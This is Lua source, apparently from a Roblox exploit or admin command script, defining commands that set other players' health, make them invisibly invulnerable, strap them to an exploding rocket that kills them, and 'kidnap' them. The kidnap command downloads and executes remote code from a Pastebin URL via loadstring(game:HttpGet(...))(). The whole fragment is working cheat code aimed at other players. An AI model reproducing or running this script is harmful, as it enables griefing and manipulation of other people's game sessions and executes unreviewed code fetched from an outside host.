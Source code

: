 addcmd('sethealth','sets the health of a player',{},
function(args, speaker)
    local players = getPlayer(args[1], speaker)
    for i,v in pairs(players)do
        local pchar=_char(v)
        pchar.Humanoid.Health = args[2]
    end
end)

addcmd('breakloops','stops any cmd loops',{'break'},
function(args, speaker)
lastBreakTime = tick()
end)

addcmd('invisibleff','gives invisible ff to player',{'invisff'},
function(args, speaker)
local players = getPlayer(args[1], speaker)
for i,v in pairs(players)do
local pchar=_char(v)
local invisff = Instance.new("ForceField", pchar)
invisff.Visible = false
end
end)

addcmd('rocket','attaches a player to a rocket',{'missile'},
function(args, speaker)
    local players = getPlayer(args[1], speaker)
    for i,v in pairs(players)do
        local pchar=_char(v)
        spawn(function()
		local m = missile:Clone()
		m.Parent = workspace
		local W = Instance.new('Weld', m)
		W.Part0 = W.Parent
		W.Part1 = pchar.HumanoidRootPart
		W.C1 = CFrame.new(0, 0.5, 1)
		m.force.Force = Vector3.new(0, 15000, 0)
		wait(0.01)
		pchar.HumanoidRootPart.CFrame = pchar.HumanoidRootPart.CFrame * CFrame.new(0, 5, 0)
		wait(5)
		Instance.new('Explosion', m).Position = m.Position
		wait(0.01)
		pchar:BreakJoints()
		wait(1)
		m:destroy()
		end)
    end
end)

addcmd('kidnap', 'Kidnaps the player in a candy van',{}, function(args, speaker) 
	local players = getPlayer(args[1], speaker)
	if not game:GetService("CoreGui"):FindFirstChild('VanEvent') then
		loadstring(game:HttpGet(('https://pastebin.com/raw/NbY247zv'),true))()
	end
	for i,v in pairs(players) do 
		game:GetService("CoreGui").VanEvent:Fire(gPlayers[v]) 
	end 
end)
